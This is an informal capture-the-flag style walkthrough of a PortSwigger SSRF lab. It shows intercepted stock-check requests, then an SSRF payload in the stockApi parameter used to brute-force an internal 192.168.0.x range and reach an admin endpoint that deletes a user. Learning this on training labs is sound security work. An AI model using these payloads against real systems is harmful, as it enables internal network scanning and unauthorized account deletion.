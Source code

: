 #  Basic SSRF against another back-end system

Link: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly.
- so let's go to products and click check stock as challange describtion said
- intercept this request
```
POST /product/stock HTTP/1.1
Host: 0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Cookie: session=2Gw97cnP5g3C7q7rHceYJzb6gt78siRj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```
- notice that stockApi parameter has a url as a value, so let's try to change it to `http://192.168.0.x:8080/admin` as said in describtion.
- we don't know the value of x so we will send the request to the intruder for brute forcing to be like this
```
POST /product/stock HTTP/1.1
Host: 0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Cookie: session=2Gw97cnP5g3C7q7rHceYJzb6gt78siRj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http://192.168.0.§x§:8080/admin
```
- notice that x is between two of § character, as it's parameter of the brute force
- to choose the values of it we will go to `payloads` tab
- change payload type to `numbers` and make it ranges from 0 to 255 with step 1
- start the attack and wait until you see a request with status 200
- when you find it this means that this is the suitable ip
- back to the repeater and use it with changing the value of the stockApi to: `/admin/delete?username=carlos`
- carlos is deleted
- congratzzzzzzzzzzzzzzzzzzzzz